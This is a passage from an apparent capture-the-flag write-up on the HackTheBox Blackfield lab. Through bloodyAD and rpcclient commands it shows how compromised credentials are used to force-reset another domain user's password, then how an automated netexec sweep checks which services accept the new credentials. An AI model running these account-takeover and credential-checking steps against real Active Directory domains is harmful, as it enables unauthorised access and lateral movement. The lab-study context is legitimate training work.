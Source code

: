There are multiple ways to do this,
```bash
bloodyAD --host '10.129.164.18' -d 'dc01.blackfield.local' -u 'support' -p '#00^BlackKnight' set password AUDIT2020 Thebestpass0!
```

```bash
[+] Password changed successfully!
```

OR via rpc
```bash
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.129.164.18 -c 'setuserinfo2 audit2020 23 "Thebestpass0!"
```

now the updated creds are:
```bash
audit2020 
Thebestpass0!
```

Lets now use my script to bulk check the services to which we can login with those creds:

[ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh blackfield.htb 'audit2020' 'Thebestpass0!'
```

```bash
[*] Checking if winrm port 5985 is open on blackfield.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.164.18   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.164.18   5985   DC01             [-] BLACKFIELD.local\\audit2020:Thebestpass0!

[*] Checking if smb port 445 is open on blackfield.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.164.18   445    DC01             [+] BLACKFIELD.local\\audit2020:Thebestpass0! 

[*] Checking if ldap port 389 is open on blackfield.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
LDAP        10.129.164.18   389    DC01             [+] BLACKFIELD.local\\audit2020:Thebestpass0! 

[*] Checking if rdp port 3389 is open on blackfield.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on blackfield.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.164.18   135    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
RPC         10.129.164.18   135    DC01             [+] BLACKFIELD.local\\audit2020:Thebestpass0! 

[*] Checking if nfs port 2049 is open on blackfield.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on blackfield.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on blackfield.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on blackfield.htb...
```